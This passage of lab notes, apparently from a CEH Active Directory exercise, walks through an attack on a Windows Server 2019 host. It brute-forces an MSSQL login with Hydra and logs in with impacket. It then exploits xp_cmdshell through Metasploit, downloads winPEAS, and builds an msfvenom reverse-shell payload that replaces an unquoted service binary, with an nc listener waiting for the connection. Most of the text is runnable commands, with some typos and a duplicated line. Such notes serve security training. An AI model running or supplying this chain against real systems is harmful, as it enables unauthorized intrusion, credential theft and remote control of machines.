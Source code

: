 1.  Nmap scan, we observed that host **10.10.1.30** (which is **Windows Server 2019 (AD)** virtual machine) has port **1433** open. We will attempt to brute force the password using **Hydra**, as we already know the username, which is **SQL_srv**.
2. **SQL_srv** in a text file and name it as **user.txt**
3. password  cracking using hyrda 
	- ``hydra -l SQL_SIV -P / root/ADtools/rockyou.txt 10.10.1.30 mssql``
	- `` user:SQL_SrV password:batman''
4.  we will attempt to log into the service using ``mssqlclient.py``
	- ``python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433 ``
	-  the database name, which is "**master**" here.
5. Execute the SQL query
	- ``SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';``
6. we know that **xp_cmdshell** is enabled on SQL server we can use Metasploit to exploit this service. Type **exit** and press **Enter**; then execute the command **msfconsole** to launch Metasploit.
	- ``exit``
7.  ``msconsole``
	- ``use exploit/windows/mssql/mssql_payload``
	- ``set RHOST 10.10.1.30``
	- ``set USERNAME SQL_srv``
	- ``set PASSWORD batman``
	``set DATABASE master``
 8. type `` shell``
	- ``whoami``
- Here, it is $sqlexpress which is the SQL service.

## Task 6: Perform Privilege Escalation
WinPEASx64.exe is a tool for Windows privilege escalation, identifying misconfigurations and vulnerabilities for potential exploitation.

1. 1. we will use WinPEAS.exe to enumerate any misconfigurations.
	- ``cdC:\Users\Public\Downloads``
	- run `` powershell``
2. we need to host winPEASx64.exe
	- in parrot ``cd /root/ADtools ``
3. type in powershell
	- ``wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe``
	- `` /winpeas.exe`
4. Once the execution is completed, observe the output. Here, we have a file named **file.exe** in **C:\Program Files\CEH Services** that is unquoted and can be exploited for privilege escalation.
	- `` msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe``
5. ``cd ../../.. ; cd "Program Files/CEH Services" ``
	- ``move file.exe file.bak ; wget http://10.10.1.13:8000/file.exe -o file.exe``
- ``move file.exe file.bak ; wget http://10.10.1.13:8000/file.exe -o file.exe``
- ``  nc -nvlp 8888*``




## Task 7: Perform Kerberoasting Attack
